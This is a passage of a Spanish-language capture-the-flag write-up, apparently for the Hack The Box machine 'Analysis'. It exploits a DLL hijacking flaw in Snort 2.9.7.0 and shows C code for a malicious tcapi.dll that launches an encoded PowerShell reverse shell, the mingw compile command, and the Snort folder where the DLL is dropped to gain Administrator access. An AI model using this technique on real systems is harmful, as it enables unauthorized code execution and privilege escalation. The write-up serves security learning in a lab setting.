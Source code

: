 Buscando un poco [aquí](https://packetstormsecurity.com/files/138915/Snort-2.9.7.0-WIN32-DLL-Hijacking.html){:target="_blank"}, nos explican que esa versión es vulnerable y como explotar esa vulnerabilidad.

Para ello nos creamos un pequeño código en `C` y veamos que se acontece.

```bash
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
  switch(dwReason) {
    case DLL_PROCESS_ATTACH:
      system("powershell -e base64-rev-shell");
      break;
  }

return TRUE;
}
```

Luego esto lo compilamos.

```bash
x86_64-w64-mingw32-gcc -shared -o tcapi.dll tcapi.c
```

Lo subimos el `.dll` a esta ruta `C:\Snort\lib\snort_dynamicpreprocessor` del sistema y esperamos a que se ejecute el script.
![](/assets/img/HTB-Analysis/11_Analysis.png)

Ahora vemos que se estableció la conexión con la máquina, y somos el usuario Administrador y podemos ver la flag final.
